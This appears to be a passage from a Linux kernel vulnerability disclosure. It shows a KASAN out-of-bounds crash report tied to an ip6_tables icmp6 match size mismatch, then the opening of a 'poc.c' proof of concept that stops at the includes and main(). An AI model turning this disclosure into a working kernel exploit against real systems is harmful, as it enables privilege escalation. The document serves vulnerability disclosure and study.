 ```
[ 1240.039075]  do_fast_syscall_32+0x125/0x38c
[ 1240.039077]  entry_SYSENTER_compat+0x7f/0x91

[ 1240.039081] Freed by task 1817:
[ 1240.039085]  save_stack+0x23/0x90
[ 1240.039087]  __kasan_slab_free+0x137/0x180
[ 1240.039089]  kasan_slab_free+0xe/0x10
[ 1240.039092]  kfree+0x98/0x270
[ 1240.039094]  skb_free_head+0x43/0x50
[ 1240.039096]  skb_release_data+0x219/0x2c0
[ 1240.039099]  skb_release_all+0x33/0x40
[ 1240.039101]  consume_skb+0x54/0x100
[ 1240.039104]  unix_stream_read_generic+0xe42/0xf30
[ 1240.039107]  unix_stream_recvmsg+0xa2/0xd0
[ 1240.039108]  sock_recvmsg+0xad/0xb0
[ 1240.039110]  ____sys_recvmsg+0x166/0x290
[ 1240.039112]  ___sys_recvmsg+0xd3/0x140
[ 1240.039114]  __sys_recvmsg+0xc8/0x150
[ 1240.039117]  __x64_sys_recvmsg+0x48/0x50
[ 1240.039119]  do_syscall_64+0x72/0x1e0
[ 1240.039122]  entry_SYSCALL_64_after_hwframe+0x44/0xa9

[ 1240.039126] The buggy address belongs to the object at ffff88820e31bc00
                which belongs to the cache kmalloc-512(1335:user@1000.service) of size 512
[ 1240.039130] The buggy address is located 0 bytes to the right of
                512-byte region [ffff88820e31bc00, ffff88820e31be00)
[ 1240.039131] The buggy address belongs to the page:
[ 1240.039136] page:ffffea000838c600 refcount:1 mapcount:0 mapping:ffff88820ee93800 index:0xffff88820e318c00 compound_mapcount: 0
[ 1240.039138] flags: 0x17ffffc0010200(slab|head)
[ 1240.039143] raw: 0017ffffc0010200 ffffea00083aa800 0000000500000005 ffff88820ee93800
[ 1240.039147] raw: ffff88820e318c00 000000008020001c 00000001ffffffff 0000000000000000
[ 1240.039148] page dumped because: kasan: bad access detected

[ 1240.039150] Memory state around the buggy address:
[ 1240.039154]  ffff88820e31bd00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
[ 1240.039157]  ffff88820e31bd80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
[ 1240.039161] >ffff88820e31be00: fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc
[ 1240.039163]                    ^
[ 1240.039166]  ffff88820e31be80: fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc
[ 1240.039170]  ffff88820e31bf00: fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc
[ 1240.039172] ==================================================================
[ 1240.039174] Disabling lock debugging due to kernel taint
[ 1240.039212] x_tables: ip6_tables: icmp6.0 match: invalid size 8 (kernel) != (user) 212
```

### poc.c

```c
#define _GNU_SOURCE
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <net/if.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <linux/netfilter_ipv6/ip6_tables.h>

int main(int argc, char *argv[]) {
```